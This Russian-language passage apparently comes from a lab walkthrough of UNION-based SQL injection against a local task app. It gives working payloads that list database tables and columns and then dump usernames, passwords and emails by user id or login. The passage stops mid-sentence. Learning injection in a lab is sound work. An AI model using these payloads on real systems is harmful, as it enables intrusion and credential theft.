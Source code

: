 
Теперь займемся исследованием рабочей базы. Узнавать ее имя нет необходимости, так как MySQL предоставляет функцию **database**, которая возвращает имя текущей базы. Нам необходимо выяснить список таблиц, а также колонок в каждой из них:

`http://localhost:8080/task/?id=-1' union select group_concat(table_name),null,null FROM information_schema.tables where table_schema=database()--+`

![tables](./images/tables.png)


Теперь получаем список колонок по каждой таблице из служебных таблиц MySQL:

`http://localhost:8080/task/?id=-1' union select group_concat(column_name), null, null column_name from information_schema.columns where table_name like "%emails%" and table_schema=database()--+`

![columns](./images/columns.png)

Таким образом нужные нам таблицы содержат колонки:
`emails: id,email_id`
`users: id,username,password`

Теперь мы можем сформировать окончательные запросы для получения сведений о пользователе по его идентификатору:
`http://localhost:8080/task/?id=-1'union all select u.id, group_concat(' username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u left join emails e on e.id=u.id where u.id=3--+`

или по его логину:

`http://localhost:8080/task/?id=-1'union select 1, group_concat('[', 'id:', u.id, ', username: ', u.username, ', password: ', u.password, ', email: ', e.email_id, ']'), 1 from users u left join emails e on e.id=u.id where u.username="Volk"--+`

![user-info](./images/user-info.png)

Так же не составит труда написать запрос, показывающий сведения о пользователе по его электронной почте:
